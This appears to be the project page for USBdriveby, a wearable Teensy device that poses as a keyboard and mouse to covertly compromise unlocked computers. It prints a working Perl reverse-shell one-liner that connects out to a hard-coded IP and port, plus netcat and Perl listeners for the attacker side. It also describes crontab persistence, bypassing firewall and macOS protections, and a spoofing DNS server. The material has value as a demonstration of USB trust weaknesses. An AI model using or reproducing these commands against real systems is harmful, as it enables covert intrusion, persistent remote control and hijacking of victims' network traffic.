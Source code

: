 # [USBdriveby](http://samy.pl/usbdriveby)

**USBdriveby** is a device you stylishly wear around your neck which can quickly and covertly install a backdoor and override DNS settings on an unlocked machine via USB in a matter of seconds. It does this by emulating a keyboard and mouse, blindly typing controlled commands, flailing the mouse pointer around and weaponizing mouse clicks.

In this project, we'll learn how to exploit a system's blind trust in USB devices, and learn how a $20 Teensy microcontroller can evade various security settings on a real system, open a permanent backdoor, control the flow of network traffic, and all within a few seconds and permanently, even after the device has been removed.

by [@SamyKamkar](https://twitter.com/samykamkar) // <code@samy.pl> // <http://samy.pl> // Dec 17, 2014

Code available on [github](https://github.com/samyk/usbdriveby)

<a href="http://www.youtube.com/watch?feature=player_embedded&v=nlM2D8qCg-E
" target="_blank"><img src="http://img.youtube.com/vi/nlM2D8qCg-E/0.jpg" alt="USBdriveby" width="640" height="480" border="10" /></a>

------

# Overview

I often wear a microcontroller around my neck, and have a few for a few different fun tasks. One that's more interesting is this, USBdriveby, which emulates a keyboard and mouse when plugged into a machine, exploiting the blind trust machines give USB devices.

Specifically, when you normally plug in a mouse or keyboard into a machine, no authorization is required. The devices can simply begin typing. We exploit this fact by sending arbitrary keystrokes meant to launch specific applications, permanently evade a local firewall, install a reverse shell, and even modify DNS settings 

We even evade OS X's security - while they attempt to prevent network changes being done by just a "keyboard", and even prevent most applications from moving windows to specific locations, we evade both of these with some unprotected applescript and carefully planned mouse movements.

![http://samy.pl/usbdriveby/driveby.jpg](http://samy.pl/usbdriveby/driveby.jpg)


------

# Software

### USBdriveby
You can acquire the USBdriveby microcontroller source code from my github: <https://github.com/samyk/usbdriveby>

I've written it for both Teensy and Arduino microcontrollers, however not all Arduinos are capable of emulating a USB HID keyboard/mouse (the Arduino Nano specifically cannot).

### dns_spoofer.pl
I've created a DNS server which responds to normal DNS requests properly, however sends spoofed answers for specific hostnames. This runs on a remote host and allows us to manipulate the traffic of the system that's been hit by USBdriveby.

This is also available on my github: <https://github.com/samyk/usbdriveby>

### perl backdoor
We use a perl backdoor I developed as virtually all OS X and *nix machines have perl installed by default. You'll find many of these systems don't come with a C compiler, especially in the bare bones version, but perl is always quietly available.

``perl -MIO::Socket -e'$c=new IO::Socket::INET("72.14.179.47:1337");print$c `$_`while<$c>'``

### netcat
To evade the local router and not require any ports opening up, we produce a reverse shell by connecting out to a server we control every 5 minutes via crontab, and once the connection is established, we can begin sending commands to the compromised machine. If the connection dies, the compromised system will connect back within 5 minutes. [netcat](http://netcat.sourceforge.net/) is an easy way to support this.

`netcat -l 1337`

You could also use perl in lieu of netcat again:

``perl -MIO -e'$c=new IO::Socket::INET(LocalPort,1337,Listen)->accept;print$c $_ while <STDIN>'``

-----

# Hardware

### Teensy
**$20**: [Teensy 3.1](https://www.pjrc.com/teensy/) is an awesome USB based microcontroller. It's small, more powerful than typical Arduinos, and inexpensive. It's perfect for this project with it's small form factor, support for emulating USB devices such as HID keyboards and mice, and it looks rad.

### Chain
Get a cool chain so you can wear your USBdriveby device around as a pendant. You'll get compliments on your jewelry, but little do they know...


-----

# Emulating HID Devices

I go into the code and emulating devices in the video!

-----

# Custom DNS Server

I developed a simple DNS server which actually answers requests properly except in the case of specific hosts we wish to spoof. We can spoof them in the code or simply add them to /etc/hosts as my software spoofs anything in /etc/hosts as well.

-----

# Questions?

Feel free to contact me with any questions!

Follow [@SamyKamkar](https://twitter.com/samykamkar) on Twitter!

You can see more of my projects at <http://samy.pl> or contact me at <code@samy.pl>.


------
